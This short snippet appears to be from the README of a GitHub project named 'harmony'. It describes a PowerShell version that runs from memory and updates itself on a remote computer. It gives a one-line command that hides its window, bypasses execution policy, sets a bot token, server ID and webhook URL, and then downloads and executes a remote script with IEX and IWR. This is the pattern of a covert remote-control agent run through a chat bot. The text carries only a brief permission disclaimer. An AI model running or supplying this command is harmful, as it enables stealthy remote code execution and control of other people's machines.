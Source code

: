 attempt to rewrite in powershell to allow running from memory for more efficiency and auto update if using the below command on the remote computer (that you own or have permission to use this on!)

powershell -W Hidden -EP Bypass -C "$TOKEN = '<YOUR_BOT_TOKEN>'; $serverID = '<YOUR_SERVER_ID>'; $whURL = '<YOUR_WEBHOOK_URL>'; IEX (IWR 'https://raw.githubusercontent.com/olivia1246/harmony/refs/heads/powershell/harmony.ps1' -UseBasicParsing); exit"
